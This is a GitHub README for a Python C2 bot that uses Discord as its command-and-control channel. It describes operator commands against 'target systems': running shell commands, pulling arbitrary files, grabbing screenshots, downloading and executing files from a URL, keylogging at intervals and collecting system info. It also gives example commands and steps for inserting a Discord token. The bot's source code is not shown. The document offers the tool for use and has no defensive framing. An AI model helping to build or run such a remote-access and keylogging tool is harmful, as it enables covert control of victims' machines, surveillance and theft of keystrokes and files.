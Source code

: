 # C2 Python Bot Discord
*(Created by Diego Monteiro)*

## What's "C2 bot Discord" ?

> The C2 Bot Discord utilizes the Discord's Developer functionality that allows you to make bots capable to interager with the user acting like a Command and Control Server.

<br>

### Before continue you must follow the steps covered on [Discord's Documentaion](https://discordpy.readthedocs.io/en/stable/discord.html).

<br>

## C2 Bot Discord commands:

<br>

Command | Functions
----------|-----------
$b | All bots receive commands
$wake | Show active bots
$shell \<cmd\>| Execute a command on target system
$upload \<file\>| Download a arbitrary file from target system
$grab | Capture screen from target system
$down_exec \<url\>| Download a file to target system and execute it
$klogging \<sec\>| Start key logging on target system
$sysinfo | Get information from target system

<br>

## Examples:

<br>


In the follow code all bots will return stdout from the shell command.

<code> $b $shell dir *.png </code>
  
If want specify just a target you can do this:

 <code>$Bot-name $shell dir *.png</code>

---
Get the key logger every 30 seconds. The bot will send to you in a .txt format:

<code>$b $klogging 30</code>

<br>

## Remenber:
- Put your discord token in 'PUT YOUR TOKEN HERE' in the <text>botDiscord.py</text> file.
- Replace '000000' in the <text>botDiscord.py</text> file to your user id.
